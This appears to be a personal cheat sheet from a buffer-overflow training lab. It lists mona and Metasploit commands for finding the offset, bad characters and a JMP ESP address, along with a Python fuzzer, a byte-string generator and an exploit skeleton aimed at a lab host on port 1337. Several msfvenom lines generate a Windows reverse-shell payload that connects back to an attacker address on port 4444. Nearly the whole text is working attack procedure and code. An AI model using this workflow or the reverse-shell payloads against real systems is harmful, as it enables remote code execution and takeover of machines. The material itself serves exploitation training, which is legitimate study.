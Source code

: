 # Methods

## Buffer Overflow:

nc 10.10.9.228 1337

!mona config -set workingfolder c:\Users\admin\Desktop\patota

python3 fuzzer.py

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l ###

exploit

!mona findmsp -distance DISTANCE == Find Offset

or

/usr/bin/msf-pattern_offset -l DISTANCE -q EIP Register

retn = BBBB

!mona bytearray -b "\x00"

!mona compare -f C:\Users\admin\Desktop\patota\bytearray.bin -a ESP

!mona jmp -r esp -cpb "\x00\x01"

retn = jmp

msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=4444 EXITFUNC=thread -b "\x00" -f c

msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=4444 -e x86/shikata_ga_nai -f py -b "\x00"

msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=4444 -b "\x00" -f c

## Script Fuzzer
```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.9.228"

port = 1337
timeout = 5
prefix = "OVERFLOW10 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

## Script Strings
```
#listRem = "\\x11".split("\\x")
#

for x in range(1, 256):
  #if "{:02x}".format(x) not in listRem:
    print("\\x" + "{:02x}".format(x), end='')
print()

```

## Exploit
```
import socket

ip = "10.10.9.228"
port = 1337

prefix = "OVERFLOW10 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```